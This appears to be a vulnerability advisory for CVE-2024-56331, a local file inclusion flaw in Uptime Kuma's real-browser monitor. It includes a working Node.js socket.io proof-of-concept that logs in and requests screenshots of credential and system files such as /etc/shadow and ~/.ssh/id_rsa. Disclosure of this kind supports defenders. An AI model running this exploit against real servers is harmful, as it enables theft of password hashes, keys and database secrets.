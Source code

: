 # CVE-2024-56331 Uptime-Kuma : Local File Inclusion (LFI) via Improper URL Handling in `Real-Browser` monitor

### Summary
An **Improper URL Handling Vulnerability** allows an attacker to access sensitive local files on the server by exploiting the `file:///` protocol. This vulnerability is triggered via the **"real-browser"** request type, which takes a screenshot of the URL provided by the attacker. By supplying local file paths, such as `file:///etc/passwd`, an attacker can read sensitive data from the server.

### Details
The vulnerability arises because the system does not properly validate or sanitize the user input for the URL field. Specifically:

1. The URL input (`<input data-v-5f5c86d7="" id="url" type="url" class="form-control" pattern="https?://.+" required="">`) allows users to input arbitrary file paths, including those using the `file:///` protocol, without server-side validation.
   
2. The server then uses the user-provided URL to make a request, passing it to a browser instance that performs the "real-browser" request, which takes a screenshot of the content at the given URL. If a local file path is entered (e.g., `file:///etc/passwd`), the browser fetches and captures the file’s content.

```javascript
const browser = await getBrowser();
const context = await browser.newContext();
const page = await context.newPage();

const res = await page.goto(monitor.url, {
    waitUntil: "networkidle",
    timeout: monitor.interval * 1000 * 0.8,
});

let filename = jwt.sign(monitor.id, server.jwtSecret) + ".png";

await page.screenshot({
    path: path.join(Database.screenshotDir, filename),
});

await context.close();
```

Since the user input is not validated, an attacker can manipulate the URL to request local files (e.g., `file:///etc/passwd`), and the system will capture a screenshot of the file's content, potentially exposing sensitive data.

### PoC
1. **Instructions**:
   - Enter a local file path as the URL, such as: `view-source:file:///etc/passwd`.
   - The server will process the URL and, in "real-browser" mode, capture a screenshot of the file content.

Example PoC:

1. Log in to the application with valid credentials:

```javascript
const { io } = require("socket.io-client");

// Server configuration and credentials
const CONFIG = {
  serverUrl: "ws://localhost:3001",
  credentials: {
    username: "admin",
    password: "password1"
  },
  requestType: {
    REAL_BROWSER: "real-browser",
    HTTP: "http"
  },
  urlHeader: {
    VIEW_SOURCE: "view-source:file:///",
    FILE: "file:///"
  }
};

// List of sensitive files on a Linux system
const SENSITIVE_FILES = [
  "/etc/passwd",
  "/etc/shadow",
  "/etc/hosts",
  "/etc/hostname",
  "/etc/network/interfaces", // May vary depending on the distribution
  "/etc/ssh/ssh_config",
  "/etc/ssh/sshd_config",
  "~/.ssh/authorized_keys",
  "~/.ssh/id_rsa",
  "/etc/ssl/private/*.key",
  "/etc/ssl/certs/*.crt",
  "/app/data/kuma.db", // Uptime Kuma database file
  "/app/data/config.json" // Uptime Kuma configuration file
];

// Function to send a request and wait for the response
function sendRequest(socket, filePath, type) {
  return new Promise((resolve, reject) => {
    fileUrl = CONFIG.urlHeader.VIEW_SOURCE + filePath;
    if (type == CONFIG.requestType.HTTP) {
      fileUrl = CONFIG.urlHeader.FILE + filePath;
    }
    socket.emit("add", {
      type: type,
      name: type + " " + filePath,
      url: fileUrl,
      method: "GET",
      maxretries: 0,
      timeout: 500,
      notificationIDList: {},
      ignoreTls: true,
      upsideDown: false,
      accepted_statuscodes: ["200-299"]
    }, (res) => {
      console.log(`Response for file ${filePath}:`, res);
      resolve();
    });
  });
}

// Main function for connecting and sending the 'add' request
(async () => {
  const socket = io(CONFIG.serverUrl);

  // Handle connection errors
  socket.on("connect_error", (err) => {
    console.error("Connection failed:", err.message);
  });

  try {
    // Connecting with credentials
    await new Promise((resolve, reject) => {
      socket.emit("login", {
        username: CONFIG.credentials.username,
        password: CONFIG.credentials.password,
        token: ""
      }, (res) => {
        if (res.ok) {
          console.log("Connection successful");
          resolve();
        } else {
          console.log(res);
          reject(new Error("Connection failed"));
        }
      });
    });

    // Sending requests for each file using Promise.all to ensure synchronization
    const realBrowserRequests = SENSITIVE_FILES.map(filePath => sendRequest(socket, filePath, CONFIG.requestType.REAL_BROWSER));

    // Wait for all requests to be sent
    await Promise.all([...realBrowserRequests]);

    // Close the socket after all requests have been sent
    socket.close();
    console.log("Connection closed after all requests.");

  } catch (error) {
    console.error("Error:", error.message);
    socket.close();
  }
})();
```

### Impact
This vulnerability is a **Local File Inclusion (LFI)** issue, which allows an attacker to access and potentially exfiltrate sensitive files from the server. The impact is significant, as attackers can access critical system files or application configuration files, such as:
- `/etc/passwd`: Contains user account information.
- `/etc/shadow`: Contains password hashes.
- `/app/data/kuma.db`: Contains the database for the Uptime Kuma monitoring tool.
- `/app/data/config.json`: Contains the database credentials for Uptime Kuma.

Any **authenticated user** who can submit a URL in "real-browser" mode is at risk of exposing sensitive data through screenshots of these files.
